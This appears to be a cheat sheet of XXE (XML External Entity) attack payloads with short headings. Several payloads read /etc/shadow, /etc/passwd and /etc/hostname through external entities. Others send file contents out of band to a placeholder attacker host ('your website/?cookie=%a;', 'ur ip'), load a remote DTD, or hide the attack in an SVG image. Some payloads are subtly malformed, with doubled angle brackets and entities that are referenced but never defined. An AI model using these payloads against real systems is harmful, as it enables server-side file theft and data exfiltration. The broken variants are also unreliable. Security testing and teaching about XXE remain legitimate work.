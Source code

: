 XXE: Basic XML Example
	`<userInfo>`
	  `<firstName>Key</firstName>`
	  `<lastName>Zen</lastName>`
	`</userInfo>`

----------------------------------------------------------------------------------------------------------------------------------------------------------

XXE: Entity Example
	`<?xml version="1.0" encoding="utf-8"?>`

	<!DOCTYPE replace [
	<!ENTITY test "Doe"> ]> 
	 <userInfo>
  	   <firstName>Rahul</firstName>
	   <lastName>&test;</lastName>
 	 </userInfo>

----------------------------------------------------------------------------------------------------------------------------------------------------------

XXE: File Disclosure Example 
	`<?xml version="1.0" encoding="utf-8"?>`
	`<!DOCTYPE replace [`
	 `<!ENTITY test SYSTEM "file:///etc/shadow"> ]>`
	 `<userInfo>`
	  `<firstName>Rahul</firstName>`
 	`<lastName>&test;</lastName>`
	 `</userInfo>`

----------------------------------------------------------------------------------------------------------------------------------------------------------

XXE: Local File Inclusion Example
	`<?xml version="1.0" encoding="utf-8"?>`
 	`<!DOCTYPE foo [`  
	`<!ELEMENT foo (#ANY)>`
	`<!ENTITY xxe SYSTEM "file:///etc/passwd">]>`
	`<foo>&xxe;</foo>`

----------------------------------------------------------------------------------------------------------------------------------------------------------

XXE: Server Side Request Forgery Example
	`<?xml version="1.0" encoding="utf-8"?>`
	`<!DOCTYPE reset [`
	`<!ENTITY % remote SYSTEM 'http://IP/file_name'>`
	`%remote;`
	`%int;`
	`%trick; ]>`

----------------------------------------------------------------------------------------------------------------------------------------------------------

XXE: Payload Using DTD File
	`<!ENTITY % a SYSTEM 'file:///etc/passwd'>`
	`<!ENTITY % b "<!ENTITY &#x25; c SYSTEM 'your website/?cookie=%a;'> " >` 
	`%b;`
	`%c;`

(&#x25),(&#37) Are the  Hex and decimal value of (%)

To Call This File   
	`<?xml version="1.0" encoding="utf-8"?>`
	`<!DOCTYPE xxe [`
	`<!ENTITY % remote SYSTEM 'http://IP/file_name'>`
	`%remote;`

----------------------------------------------------------------------------------------------------------------------------------------------------------

XXE: Exploit Using SVG Image 
	`<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>`

----------------------------------------------------------------------------------------------------------------------------------------------------------

XXE: Exploit Using SVG Image (Out Of Band Method)
	`<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <<!ENTITY % a SYSTEM "file:///etc/hostname" >>  <!ENTITY b SYSTEM "ur ip/x=?%a; " > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>`

	

----------------------------------------------------------------------------------------------------------------------------------------------------------